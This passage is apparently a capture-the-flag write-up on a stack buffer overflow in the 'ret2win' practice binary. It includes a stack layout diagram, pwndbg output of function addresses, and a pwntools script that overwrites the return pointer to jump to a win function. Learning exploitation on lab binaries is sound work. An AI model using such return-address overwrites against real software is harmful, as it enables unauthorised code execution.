 All local variables are on the stack and a base pointer (which we don't have to worry about). So assuming there are no other local variables, there is 40 bytes bytes between the read and the return pointer. We can craft a payload like this:
```
        | stack          |
        | -------------- |
8 bytes | start buffer   |
8 bytes | buffer         |
8 bytes | buffer         |
8 bytes | buffer         |
8 bytes | base pointer   |
8 bytes | return pointer | # where we are going to return to
8 bytes | -------------- |

```
By writing in the first 32+8 bytes of garbage, we are then able to write whatever we want into the return pointer. So all we have to do is look to see what the value should be.
```
pwndbg> info functions
All defined functions:

Non-debugging symbols:
...
0x0000000000400690  frame_dummy
0x0000000000400697  main
0x00000000004006e8  pwnme
0x0000000000400756  ret2win
...
pwndbg>
```

Looking at the functions in the binary we see there is one called ret2win or return here to win which seems super promising. Piecing that all together and we get the following exploit.

```python
from pwn import *

io = process('./ret2win')


# The amount to fill the buffer
junk = b'A' * 0x20

# The 8 bytes to fill the new base pointer from the leave
new_bp = p32(0xcafebabe)*2

new_IP = p32(0x00400756) # The ret2win pointer

payload = junk + new_bp +  new_IP

# Print the payload for debugging puropses
print("The payload is:")
print(payload)

# wait for debugger to be attached
input("Hit enter to apptempt exploit")

# read the output and send the payload
print(io.clean(0.5).decode("utf-8"))
io.send(junk+new_bp + new_IP)



# Once done debugging, read the output
input("exploit sent hit enter to end")
```